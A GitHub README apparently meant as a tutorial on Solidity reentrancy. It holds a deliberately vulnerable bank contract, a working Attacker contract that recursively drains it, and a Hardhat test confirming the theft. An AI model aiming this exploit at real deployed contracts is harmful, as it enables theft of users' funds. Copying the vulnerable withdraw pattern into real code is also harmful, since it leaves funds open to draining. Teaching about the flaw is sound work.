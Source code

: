 # Reentrancy Attack Demonstration in Solidity

This project is a simple demonstration of a reentrancy attack in Solidity, using Hardhat for testing. The example consists of two contracts: `VulnerableBank` and `Attacker`.

## Credits

This tutorial was created by Pedro Magalhães.

- Pedro Magalhães, Iora Labs
- Email: pedro@ioralabs.com
- Website: https://ioralabs.com

## Contracts

### VulnerableBank

The `VulnerableBank` contract simulates a very simple bank that allows users to deposit and withdraw Ether. However, it has a critical security flaw that allows for a reentrancy attack.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

contract VulnerableBank {
mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```
In the withdraw function, the contract sends the amount of Ether to the caller before zeroing out their balance. This allows a malicious contract to recursively call the withdraw function and drain the VulnerableBank contract of all its Ether.

### Attacker

The Attacker contract is designed to exploit the reentrancy vulnerability in the VulnerableBank contract.

```
pragma solidity ^0.5.0;

import "./VulnerableBank.sol";

contract Attacker {
VulnerableBank public vulnerableBank;

    constructor(address _vulnerableBank) public {
        vulnerableBank = VulnerableBank(_vulnerableBank);
    }

    function attack() public payable {
        require(msg.value > 0);
        vulnerableBank.deposit.value(msg.value)();
        vulnerableBank.withdraw();
    }

    function () external payable {
        if (address(vulnerableBank).balance >= 1 ether) {
            vulnerableBank.withdraw();
        }
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }

}
```

The`attack`function of the`Attacker`contract calls the`deposit`and`withdraw`functions of the`VulnerableBank` contract. The fallback function then checks if the balance of the VulnerableBank contract is greater than or equal to 1 Ether, and if so, it recursively calls the withdraw function, thereby draining the VulnerableBank contract of its Ether.

## Testing

The test script reentrancyAttack.js uses Hardhat to test the reentrancy attack.

```
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Reentrancy Attack", function () {
let vulnerableBank;
let attacker;
let accounts;

    beforeEach(async function () {
        accounts = await ethers.getSigners();

        const VulnerableBank = await ethers.getContractFactory("VulnerableBank");
        vulnerableBank = await VulnerableBank.deploy();
        await vulnerableBank.deployed();

        const Attacker = await ethers.getContractFactory("Attacker");
        attacker = await Attacker.deploy(vulnerableBank.address);
        await attacker.deployed();
    });

    it("should perform a reentrancy attack", async function () {
        // Deposit additional ether into VulnerableBank
        await vulnerableBank.connect(accounts[0]).deposit({ value: ethers.utils.parseEther("1") });

        await attacker.connect(accounts[1]).attack({ value: ethers.utils.parseEther("1") });

        // Now expect the attacker's balance to be above the 1 ether they initially sent
        expect(await attacker.getBalance()).to.be.above(ethers.utils.parseEther("1"));
        expect(await vulnerableBank.balances(accounts[1].address)).to.equal(0);
    });

    it("should have 0 balance in VulnerableBank after the attack", async function () {
        // Check the balance of VulnerableBank after the attack
        expect(await ethers.provider.getBalance(vulnerableBank.address)).to.equal(0);
    });
});
```

In the test, the VulnerableBank and Attacker contracts are deployed, and then the attack function is called. After the attack, the test checks that the Attacker contract's balance is greater than the 1 Ether initially sent and that the VulnerableBank contract's balance is 0.

## Running the Test

Follow these steps to run the test:

1. **Install Node.js and npm:** Ensure that you have Node.js and npm installed on your machine. You can download Node.js and npm from [here](https://nodejs.org/en/download/).

2. **Install Hardhat:** Install Hardhat, which is a development environment to compile, deploy, test, and debug your Ethereum software. Run this command in your terminal to install Hardhat globally:
```
npm install --global hardhat
```


3. **Install Hardhat:** Clone the repository: Clone this GitHub repository to your local machine.
```
git clone git@github.com:ioralabs/reentrancy_attack_example.git
```

4. **Install dependencies:** Navigate to the root directory of the cloned repository and install the necessary dependencies:
```
cd reentrancy_attack_example
npm install
```
5. **Run the test:** Now you can run the test:
```
npx hardhat test
```

The test command will compile your contracts and run the test files located in the test directory.